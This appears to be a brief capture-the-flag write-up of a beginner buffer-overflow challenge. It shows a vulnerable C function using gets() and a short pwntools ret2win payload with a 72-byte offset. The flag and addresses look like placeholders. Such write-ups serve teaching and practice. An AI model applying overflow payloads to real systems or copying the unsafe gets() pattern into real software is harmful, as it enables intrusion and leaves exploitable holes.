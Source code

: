 ```yaml
---
title: "Buffer Overflow"
date: "2024-12-10"
ctf: "HTB University CTF 2024"
category: "pwn"
difficulty: "Medium"
points: 250
tags: ["pwn", "buffer-overflow", "ret2win"]
author: "Tham Le"
solved: true
---
```


# Buffer Overflow

## Challenge Description

A classic buffer overflow challenge. Can you control the execution flow?

## Solution

This challenge involves a simple buffer overflow with a ret2win technique.

### Step 1: Analysis

Running `checksec` on the binary shows:
- No ASLR
- No stack canaries
- NX disabled

### Step 2: Finding the Vulnerability

The `vulnerable_function()` uses `gets()` which doesn't check buffer bounds.

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
}
```

### Step 3: Exploitation

We need to overflow the buffer and redirect execution to the `win()` function.

```python
from pwn import *

# Calculate offset
offset = 72

# Address of win function
win_addr = 0x401234

payload = b'A' * offset + p64(win_addr)
```

### Step 4: Flag

After successful exploitation, the `win()` function prints the flag.

**Flag:** `HTB{f4k3_buff3r_0v3rfl0w_t35t}` 